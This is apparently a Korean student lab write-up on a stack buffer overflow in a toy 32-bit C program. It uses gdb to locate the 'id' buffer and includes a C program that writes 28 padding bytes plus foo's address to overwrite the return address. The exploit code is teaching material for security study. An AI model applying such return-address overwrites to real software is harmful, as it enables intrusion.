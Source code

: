 ```bash
0xFFFFD4D0 : 01 00 00 00 94 D5 FF FF - F8 D4 FF FF EB 84 04 08 ................
0xFFFFD4C0 : 00 80 00 00 D8 41 EC 44 - 00 A0 04 08 52 85 04 08 .....A.D....R...
0xFFFFD4B0 : 3C 0A D2 44 D0 C3 FF F7 - 00 D4 FF FF 1D 83 04 08 <..D............
--------------------------------------------------------------------[ObjectiveC]
0xffffd4c0:	""
--------------------------------------------------------------------------[code]
=> 0x80484a5 <foo+9>:	mov    DWORD PTR [esp+0x4],eax
   0x80484a9 <foo+13>:	mov    DWORD PTR [esp],0x8048594
   0x80484b0 <foo+20>:	call   0x8048350 <printf@plt>
   0x80484b5 <foo+25>:	lea    eax,[ebp-0x18]
--------------------------------------------------------------------------------
0x080484a5	5	   printf("id location:%p. enter id\n", id);
4: $eip = (void (*)()) 0x80484a5 <foo+9>
3: $eax = 0xffffd4c0
2: $ebp = (void *) 0xffffd4d8
1: $esp = (void *) 0xffffd4b0
```

`eax`를 살펴보면 `0x1`에서 `lea` 명령어가 실행된 후 `0xffffd4c0`로 바뀐 것을 알 수 있다.
그러므로 `id`의 location은 `0xffffd4c0`이다.

- 정리해본다면,
  - 실행파일을 실행했을 때, `id`의 location은 `0xffffd4f0`이다.
  - `gdb`에서의 `id`의 location은 `0xffffd4c0`이다.
- 이 둘의 차이는 `0x30`이다. (십진수 : 48)
- `gdb`가 디버깅을 위해 환경변수를 추가하기 때문에 실제 주소와 다르게 나오게 된다.

### 2) Make an attack input file, `attack-inp2`, so that this program repeats "enter id" twice.

`foo` 함수의 주소는 `0x804849c` 이다.

`f2.c`에서 `id`의 크기를 16 bytes로 정의하였기 때문에, 컴파일러는 실행 시 `id`의 크기를 24 bytes로 잡는다.

return address를 바꾸려면 앞에 있는 `ebp` 위로 가야하기 때문에 28 bytes의 문자 길이를 가져야 한다.

따라서 `inp-write2.c`를 아래와 같이 만들었다.<br>
`inp-write2.c`:

```c
#include <stdio.h>
#include <string.h>
int main(){
char buf[200];
        // assume we need 17 bytes to reach return address
        strcpy(buf, "abcdefghijklmnopqrstuvwxyzAB"); // 28 bytes
        // and we overwrite return address
        // with the address of foo (assume it was 0x0804849c)
        buf[28]=0x9c;
        buf[29]=0x84;
        buf[30]=0x04;
        buf[31]=0x08;
        write(1, buf, 32); // write to file number 1 which is the screen.
        return 0;
}
```
